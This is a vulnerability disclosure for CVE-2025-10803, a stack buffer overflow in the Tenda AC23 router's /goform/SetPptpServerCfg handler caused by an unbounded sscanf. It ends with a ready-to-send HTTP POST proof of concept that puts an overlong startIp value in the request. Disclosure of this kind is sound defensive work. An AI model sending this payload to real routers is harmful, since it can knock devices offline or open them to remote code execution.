




# CVE-2025-10803

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Information

**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC23

**Affected firmware version:** <= V16.03.07.52

**Firmware download address:** [AC23 升级软件_腾达Tenda官方网站](https://www.tenda.com.cn/material/show/3889)

## Overview

A buffer overflow vulnerability was discovered on the latest version of the Tengda AC23 router, V16.03.07.52, where an attacker sent a well-crafted http post packet to the request path /goform/SetPptpServerCfg, triggering a denial of service attack or even RCE, specifically via the function sscanf(s, "%[^.].%[^.].%[^.].%s", v10, v11, v12, &v12[8]) because there is no bounds check on s, causing a stack overflow

## Vulnerability details

It can be found that when the serverEn value is 1, it will enter the else branch to call sub_478E94 function



When the startIp and endIp are not empty, the sscanf function causes the buffer to overflow



## POC

```
POST /goform/SetPptpServerCfg HTTP/1.1
Host: 192.168.102.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

serverEn=1&endIp=aa&startIp=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaa
```



